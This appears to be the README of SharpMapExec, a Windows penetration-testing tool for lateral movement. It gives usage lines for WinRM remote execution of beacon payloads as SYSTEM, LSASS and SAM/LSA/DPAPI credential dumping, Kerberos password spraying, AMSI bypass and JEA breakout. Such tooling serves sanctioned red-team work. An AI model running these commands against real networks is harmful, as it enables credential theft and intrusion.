 # SharpMapExec

A sharpen version of [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec). This tool is made to simplify penetration testing of networks and to create a swiss army knife that is made for running on Windows which is often a requirement during insider threat simulation engagements.



Besides scanning for access it can be used to identify vulnerable configurations and exfiltrate data. The idea for the data exfiltration modules is to execute the least amount of necessary code on the remote computer. To accomplish this, the tool will download all the secrets to the loot directory and parse them locally.



You can specify if you want to use Kerberos or NTLM authentication. If you choose Kerberos, the tool will create a sacrificial token and use [Rubeus](https://github.com/GhostPack/Rubeus) to import/ask for the ticket. If NTLM is specified, it tool will create threads and use [SharpKatz](https://github.com/b4rtik/SharpKatz) to run SetThreadToken if an NTLM hash is specified, and if a password is specified, it will go with ordinary c# impersonation.

```
SharpMapExec.exe
  usage:

    --- Smb ---
        SharpMapExec.exe ntlm smb /user:USER /ntlm:HASH /domain:DOMAIN /computername:TARGET
        SharpMapExec.exe kerberos smb </user:USER /password:PASSWORD /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

      Available Smb modules
          /m:shares

    --- WinRm ---
        SharpMapExec.exe ntlm winrm /user:USER /password:PASSWORD /domain:DOMAIN /computername:TARGET
        SharpMapExec.exe kerberos winrm </user:USER /rc4:HASH  /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

      Available WinRm modules
          /m:exec /a:whoami                           (Invoke-Command)
          /m:exec /a:C:\beacon.exe /system            (Invoke-Command as System)
          /m:comsvcs                                  (Dump Lsass Process)
          /m:secrets                                  (Dump and Parse Sam, Lsa, and System Dpapi blobs)
          /m:assembly /p:Rubeus.exe /a:dump           (Execute Local C# Assembly in memory)
          /m:assembly /p:beacon.exe /system           (Execute Local C# Assembly as System in memory)
          /m:download /path:C:\file /destination:file (Download File from Host)

    --- Domain ---
        SharpMapExec.exe kerbspray /users:USERS.TXT /passwords:PASSWORDS.TXT /domain:DOMAIN /dc:DC
        SharpMapExec.exe tgtdeleg
```

### Smb

Can be used to scan for admin access and accessible Smb shares.

Modules;
````
/m:shares                                  (Scan enumerated shares for access)
````

### WinRm

The beast. It has built-in Amsi bypass, JEA language breakout, JEA function analysis. Can be used for code execution, scaning for PsRemote access, vulnerable JEA endpoints, and data exfiltration.

Modules;

````
/m:exec /a:whoami                           (Invoke-Command)
/m:exec /a:C:\beacon.exe /system            (Invoke-Command as System)
/m:comsvcs                                  (Dump Lsass Process)
/m:secrets                                  (Dump and Parse Sam, Lsa, and System Dpapi blobs)
/m:assembly /p:Rubeus.exe /a:dump           (Execute Local C# Assembly in memory)
/m:assembly /p:beacon.exe /system           (Execute Local C# Assembly as System in memory)
/m:download /path:C:\file /destination:file (Download File from Host)
````

### Domain

Currently supports domain password spraying and to create a TGT for the current user that can be used with the `/ticket` parameter to get the current context.

### Example usage

For easy or mass in-memory execution of C# assemblies

![](images/mass_assembly.png)

Kerberos password spraying then scanning for local admin access

![](images/spray+admin.png)

This project supports scanning JEA endpoints and will analyze source code of non default commands and check if the endpoint was not configured for `no-language` mode.

![](images/jea.png)

Discover local admin password reuse with an NT hash.

![](images/localadmin.png)

Mass dump Lsass process with built-in Microsoft signed DLL and saves it to the `loot` folder

![](images/lsassdump.png)

And much more!

Some scenarios with Kerberos will require you to sync your clock with the DC and set the DNS

```powershell
net time \\DC01.hackit.local /set
Get-NetAdapter ethernet0* | Set-DnsClientServerAddress -ServerAddresses @('192.168.1.10')
```





### Acknowledgments

Projects that helped or are existing in this tool

* [Rubeus](https://github.com/GhostPack/Rubeus)                [@Harmj0y](https://twitter.com/harmj0y)

* [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)        [@Harmj0y](https://twitter.com/harmj0y)

* [SharpKatz](https://github.com/b4rtik/SharpKatz)             [@b4rtik](https://twitter.com/b4rtik)

* [Amsi.Fail](https://github.com/Flangvik/AMSI.fail)           [@Flangvik](https://twitter.com/Flangvik)

* [SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump) [@G0ldenGunSec](https://twitter.com/G0ldenGunSec)

* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)  [@byt3bl33d3r](https://twitter.com/byt3bl33d3r)
  

